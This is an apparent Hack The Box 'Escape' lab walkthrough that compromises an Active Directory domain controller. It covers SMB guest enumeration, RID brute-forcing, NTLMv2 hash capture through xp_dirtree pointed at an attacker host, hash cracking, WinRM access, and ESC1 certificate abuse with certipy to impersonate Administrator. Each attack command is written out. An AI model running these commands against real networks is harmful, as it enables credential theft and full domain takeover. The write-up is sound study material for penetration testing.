## Welcome

Today, we will explore *Escape,* a medium-rated machine from **Hack The Box**. 



## Information Gathering

An initial Nmap scan was run with service detection and NSE’s default scripts to gather as much information as possible about the target system.



Multiple services have been identified. Fundamentals were:

**DNS** (Port 53)

**Kerberos** (Port 88)

**RPC** (Port 135)

**NetBIOS** (Port 139)

**LDAP** (Port 389)

**SMB** (Port 445)

**LDAPS** (Port 636)

**MSSQL** (Microsoft SQL, Port 1433)

**WinRM** (Port 5985)

It was deduced by the recovered information the target was a Domain Controller from an Active Directory environment. The `sequel.htb` domain and the `dc.sequel.htb` Domain Controller’s **FQDN** have been identified by NSE, which confirmed the DC host security assessment.

Since the assessment started without any credentials, it has been attempted to list SMB shares anonymously (with the -N switch). However, it was denied.

 Thus, it has been attempted to leverage the ***Guest*** account’s `null session` to query resources legitimately from the exposed protocols. Netxec confirmed through SMB that the *Guest* account has been left enabled, allowing an unauthenticated user to leverage a **RO permission** (read-only) granted over the `Public` and the default `IPC$`  SMB shares. 

(`nxc smb sequel.htb -u Guest -p ''`)

(`smbmap -H sequel.htb -u Guest -p ''`)



This configuration could allow an attacker to leverage the *Guest* account session in order to access the default `IPC$` share access to perform RID brute-forcing in order to retrieve valid domain usernames from their account’s SID. The following commands were executed to build a comprehensive user list regrouping all domain users that have been identified thanks to the RID brute-force technique:

`smbmap -H sequel.htb -u Guest -p '' --rid-brute > users.rid.txt`

`cat users_rid.txt | grep "SidTypeUser" | awk '{print $6}' | cut -d'\' -f2 > users.txt`



The following domain accounts have been identified:

`Tom.Henn`

`Brandon.Brown`

`Ryan.Cooper`

`sql_svc`

`James.Roberts`

`Nicole.Thompson`

## Initial Access

An interesting `sql_svc` service account has been identified, which naturally led to think about performing **Kerberoasting.**

This technique consists of querying a Ticket-Granting Service (TGS) for each user identified, to the KDC. This is intended to verify whether an account has a Service Principal Name (SPN) configured, which is a must for service accounts. This SPN will allows Kerberos to associate properly the requested service with its associated domain account. Through this checking process, the Authentication Service (AS) managed by the Domain Controller will return a TGS-REP containing a hash secret derived from the NTLM password hash of the victim user.

However, this attack was not successful here; it appears that the service account didn’t have any SPN, for some reasons; password hash recovery wasn’t successful.



A world-readable `Public` share that was previously discovered has been examined; a PDF single file named `SQL Server Procedures.pdf` has been retrieved.



The `get` built-in command allowed to download the file. Using LibreOffice, the PDF has been opened:



A simple document explaining some procedures could be find at the first page. However, scrolling down the second page, sensitive information addressed to new employees could have been recovered by any unauthenticated attackers:



The ***PublicUser*** database user has been configured with a password that has been left in plaintext in a word readable PDF file. Consequently, the `impacket-mssqlclient` tool from the Impacket suit has been used to initiate a session as the *PublicUser* SQL Server **user through the MicrosoftSQL (MSSQL) protocol.



From there, the classic vector was to force the MSSQL service account to authenticate to the local machine in order to retrieve its NTLMv2 hash and attempt offline cracking.

MSSQL supports stacked queries so a variable pointing to the local IP address was created before using the `xp_dirtree` function to list the files in SMB share and grab the NTLMv2 hash.

The following command has been executed on SQL Server’s side (with `responder` running locally in order to catch the hash properly):

`use master; exec xp_dirtree ‘\\<ATTACKER_IP>\share’`



Therefore, an offline hash cracking was attempted. (In Hashcat, the hash format number associated with NetNTLMv2 is **5600**, it was provided through the `hashcat -m 5600 -a 0 <HASH_FILE> <WORDLIST>` command.



The password has been successfully cracked, making the domain account associated with the SQL Server service compromised. This could be confirmed through **NetExec:**



The authenticated domain access obtained could be leveraged to collect domain objects data through LDAP by using the `bloodhound-python` tool. 



The generated ZIP file could then be imported in the **BloodHound** GUI to observe domain object relations. By clicking the *Explore* tab, a comprehensive graph could be visualized to analyze closely sensitive object nodes. Inspecting the `sql_svc` account’s *Outband Object Control* section, nothing exploitable could be identified. However, inspecting the group memberships revealed that the service account was a member of the ***Remote Management Users*** group.



Just as members of the *Remote Desktop Users* group can access the system remotely via the RDP protocol, members of the *Remote Management Users* group can access the system remotely via the **WinRM** protocol. This configuration is ideal for an attacker at this stage of compromise, since it is not RDP that is publicly exposed by the DC, but rather WinRM. Consequently, the `evil-winrm` tool could be used to establish initial access to the target system.



## Lateral Movement

Inspecting the non-standard `C:\SQLServer\Logs` directory, a log file was accessible.

The `ERRORLOG.BAK` log file revealed a significant problem: due to a critical error in which the user entered their password instead of their username at the login prompt, the user's account was successfully compromised.



Getting back in BloodHound, it has been identified that the employee was also a member of the *Remote Management Users* group, which allow a Windows session hijacking through `evil-winrm` as it has been done for the `sql_svc` account.



The first flag evidence could be retrieved in the `C:\Users\Ryan.Cooper\Desktop` directory.



## Privilege Escalation

Enumerating local groups through the `whoami /groups` command revealed that an **Active Directory Certificate Service** (AD CS) instance was running and accessible for domain accounts “public-key based” authentication and certificate delivery. 



Thus, the `certipy` Linux tool was used through the following command to investigate certificate templates as the user Ryan.Cooper to see whether any vulnerable template could be abused for a privilege escalation:

`certipy find -u Ryan.Cooper -p <PASSWORD> -dc-ip <TARGET_IP>`



The misconfigured **`UserAuthentication`** certificate template provided by the `sequel-DC-CA` Certificate Authority could allow an attacker to supply a Subject Alternative Name (SAN) in order to impersonate a user’s **UPN** for session hijacking. 

The questioned vulnerability, also known as **ESC1**, occurs when a certificate template has the `EnrolleeSuppliesSubject` attribute set to *True*, combined with **Enrollment Rights** permission granted to a low-privileged user group that could be abused to ultimately compromise the entire domain. 

Here, it was observed that the *Domain Users* group owned these permissions, allowing an attacker to supply a SAN and impersonate other users’ UPN to authenticate through a malicious certificate requested to the `sequel-DC-CA` Certificate Authority. Since the requested template is for user authentication purposes, the *sql.svc* account was unable to retrieve it from itself. 

Even though, to do so, a hacker would first have to compromise the Ryan.Cooper domain account, the ESC1 vulnerability could allow an attacker to achieve a full domain compromise by impersonating a domain administrator.

The following command was used to request a malicious certificate through supplying the “Administrator” domain account’s UPN for session hijacking, as the *Susanna_McKnight* low-privileged user:

`certipy req -u Ryan.Cooper -p <PASSWORD> -ca sequel-DC-CA -upn Administrator@sequel.htb -template UserAuthentication -dc-ip <TARGET_IP>`



Therefore, an `administrator.pfx` file has been generated.

